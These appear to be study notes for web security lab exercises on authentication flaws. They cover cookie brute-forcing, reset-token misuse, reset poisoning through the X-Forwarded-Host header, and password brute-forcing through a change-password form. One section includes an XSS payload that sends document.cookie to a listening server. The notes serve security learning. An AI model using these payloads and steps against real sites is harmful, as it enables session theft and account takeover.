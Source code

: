 ### Brute-forcing a stay-logged-in cookie

    Cookie = Base64encode('username' + ':' + hashMD5(password))
    In the 

### Offline password cracking

    Make use of XSS in the comment section:
    <img src="1" onerror="fetch('http:localhost:3000/?cookie=' + document.cookie)">

    Go to the server and obtain the cookie (the cookie is constructed the same as the lab above)
    -> Base64 decode it and crack the hash using crackstation.

### Password reset broken logic

    The reset password token is not bind to a specific user
    -> resend the POST request to reset password of a valid user and change the username to 'carlos'

### Password reset poisoning via middleware

    Change the username to 'carlos' and add to the POST request to /forgot-password this header: 
    X-Forwarded-Host: exploit-0aae00af04e5894e80781b14012000b0.exploit-server.net
    -> The server will treat this host as the original host and send the reset password link to the victim's email with this host as the domain : 
    https://exploit-0aae00af04e5894e80781b14012000b0.exploit-server.net/forgot-password?temp-forgot-password-token=r6kc51tllctfof5iwoz5t0p0jmjuosph

    The victim clicks on this link which makes a GET request to the attacker's server
    -> the attacker obtains the token

### Password brute-force via password change

    Notice when entering 2 new passwords that don't match:
    - If the current password is correct -> "New passwords do not match"
    - If the current password is incorrect -> "Current password is incorrect"
    
    Change the POST request /my-account/change-password with username=carlos&current-password=2&new-password-1=2&new-password-2=3
    Bruteforce the current password and look for 1 that returns "New passwords do not match"